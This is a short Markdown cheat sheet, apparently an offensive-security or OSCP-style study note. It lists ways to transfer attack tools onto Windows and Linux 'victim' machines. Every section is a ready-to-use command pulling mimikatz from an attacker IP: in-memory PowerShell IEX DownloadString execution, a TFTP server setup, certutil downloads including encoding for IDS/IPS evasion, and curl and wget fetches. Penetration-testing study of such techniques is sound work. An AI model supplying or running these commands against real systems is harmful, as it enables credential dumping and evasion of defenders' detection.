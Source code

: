 # File-Transfert-Methods

## Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
➤  Upload
tftp -i http://192.168.119.194:8000/ put filename
➤  Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Certutil

Basic transfert
```
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

## Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```
